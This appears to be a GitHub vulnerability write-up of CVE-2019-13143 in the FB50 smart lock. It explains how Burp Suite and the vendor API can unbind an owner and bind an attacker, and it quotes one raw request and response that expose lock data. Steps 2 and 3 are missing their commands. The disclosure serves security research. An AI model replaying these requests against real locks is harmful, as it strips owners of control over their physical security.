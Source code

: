 # EXPOSING THE VULNURABILITES OF THE FB50 SMART LOCK

## CVE Number

CVE-2019-13143

## Details
* The FB50 smart lock
     * The FB50 smart lock is manufactured by Shenzhen Dragon Brother Technology Co. Ltd.
     * The look is sold under multiple brands on many ecommerse sites across the web.
     * It has an estimated 15k+ users.
* Product URLs
     * https://www.chinasmartlocks.com/en/product/fb50-smart-padlock.html
     * https://www.sz-mica.com/fb50.html

## How the lock works

* The FB50 pairs to a phone via Bluetooth, and requires the OKLOK app to function. The app requires the user to create an account before further functionality is available. It also facilitates configuring the fingerprint, and unlocking from a range via Bluetooth. 
    
    * Thus the 2 methods of unlocking it are:
        * By scanning the registered fingerprint.
        * By using the companion Android app when in it’s vicinity. 

## Our objective

Our objective in this project was to try to open or pick the lock and this could be done in 2 ways
* The BLE(Bluetooth Low Energy) method
* The Android app method.
Here, we have decided to focus on the Android app method.
      

## Using Burpsuite

* Before we start performing the exploit, we require the servises of Burpsuite.
* Burp Suite is an integrated platform for performing security testing of web applications that is usually used to pentest web applications by industry proffesionals
* It operates as a web proxy server, and sits as a man-in-the-middle between the browser and destination web servers. This allows the interception, inspection and modification of the raw traffic passing in both directions
* The free community version can be downloaded from [here](https://portswigger.net/burp/communitydownload)


## The exploit in brief

The entire exploit is a 3 step process consisting of authenticated HTTP requests sent via Burpsuite:
    1. Using the lock’s MAC (obtained via a simple Bluetooth scan in the vicinity), get the barcode,user ID and lock ID
    2. Using the lock ID and user ID, unbind the user from the lock
    3. Provide a new name, attacker’s user ID and the MAC to bind the attacker to the lock

## Performing the exploit

We start by connecting the Android device through our proxy made using Burpsuite.
As we turn the “Intercept” option on, all requests from the Android device are intercepted by Burpsuite.
We intercept the different requests being sent from the app which we will later modify.

### Step 1

* We proceed to use the “Repeater” feature of Burpsuite to send requests directly to the FB50 smart lock
* For example, we send the request 

      POST /oklock/lock/getDeviceInfo HTTP/1.1
      User-Agent: nokelockTool/1.4.8(<DEVICE INFO>)
      clientType: Android
      token: <TOKEN>
      language: US
      appVersion: 1.4.8
      Content-Type: application/json;charset=UTF-8
      Content-Length: 56
      Host: api.oklock.com.cn
      Connection: close
      Accept-Encoding: gzip, deflate

      {"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"}
    
   * To which we get the follwing response
                        
         HTTP/1.1 200 
         Server: nginx/1.13.3
        Date: Sat, 21 Sep 2019 05:29:38 GMT
    Content-Type: application/json
    Content-Length: 409
    Connection: close

    {"result":{"account":"<USER EMAILID>","alarm":0,"barcode":"<BARCODE>","chipType":"1","createAt":"   <DATE&TIME","deviceId":"","electricity":"91","firmwareVersion":"2.3","gsmVersion":"","id":<LOCKID>,"isLock":0,"lockKey":"40,1,61,18,20,24,18,8,52,57,36,96,91,1,87,20","lockPwd":"000000","mac":"<MAC ADDRESS>","name":"LOCK NAME","radioName":"BlueFPL","type":0,"userId":<USER ID>},"status":"2000"}









### Step 2

   * And now that we have all necessary information, we shall proceed to unbind the lock from the victim’s device using the victim’s USER ID.
      


### Step 3

   * And now we proceed to bind it to the attacker’s device using the following command.





## Conclusion

   * Thus, we have succesfully transfered control of the FB50 smart lock from the victiom’s app to the attacker’s app.
   * The severity of this issue lies in the fact that the original owner completely loses access to their lock. They can’t even “rebind” to get back, since the current owner (the attacker) needs to authorize that.  

## References

   * FB50 Smart Lock Vulnerability Disclosure (CVE-2019-13143)
   * https://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure/
   * https://icyphox.sh/blog/fb50/
